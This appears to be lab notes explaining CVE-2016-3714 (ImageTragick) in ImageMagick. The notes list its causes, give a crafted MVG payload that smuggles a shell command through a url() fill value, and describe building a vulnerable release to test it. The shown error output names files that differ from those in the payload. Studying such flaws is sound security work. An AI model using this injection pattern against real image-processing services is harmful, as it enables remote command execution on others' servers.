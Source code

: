 
CVE 2016-3714 focuses on a possible shell injection vulnerability with ImageMagick. It is the combination of a number of vulnerabilities. Specifically:

1. that its possible to provide input images, that don't meet the magic string requirements for its expected legitimate file type.
1. that the default coders hardening policy is lax, allowing all types of delegates to be invoked
1. that the delegate implementation, makes assumptions about the sanitised state of the input buffer it passes to a `system` call


On my Kali machine, ships with a 2019 patched version of the ImageMagick utilities and libraries:

     # convert --version
     Version: ImageMagick 6.9.10-23 Q16 x86_64 20190101 https://imagemagick.org
     Copyright: © 1999-2019 ImageMagick Studio LLC
     License: https://imagemagick.org/script/license.php
     Features: Cipher DPC Modules OpenMP 
     Delegates (built-in): bzlib djvu fftw fontconfig freetype heic jbig jng jp2 jpeg lcms lqr ltdl lzma openexr pangocairo png tiff webp wmf x xml zlib

Crafting a payload to take advantage of the vulnerability:

    # cat exploit.mvg 
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.0/spl017.jpg"|ls "-la)'
    pop graphic-context


Testing the vulnerability with an image payload:

    # convert exploit.mvg exploit.png
    convert-im6.q16: Not a JPEG file: starts with 0x70 0x75 `rce1.jpg' @ error/jpeg.c/JPEGErrorHandler/335.
    convert-im6.q16: no images defined `rce1.png' @ error/convert.c/ConvertImageCommand/3258.



After downloading a pre `6.9.3-10` version of the ImageMagick source code, in this case `6.9.2-10`, from [sourceforge.net](https://sourceforge.net/projects/imagemagick/files/old-sources/6.x/6.9/ImageMagick-6.9.2-10.tar.gz/download), got a local build of the binaries.

    ./configure
    make


Source: https://imagetragick.com/#info





## Magic bytes
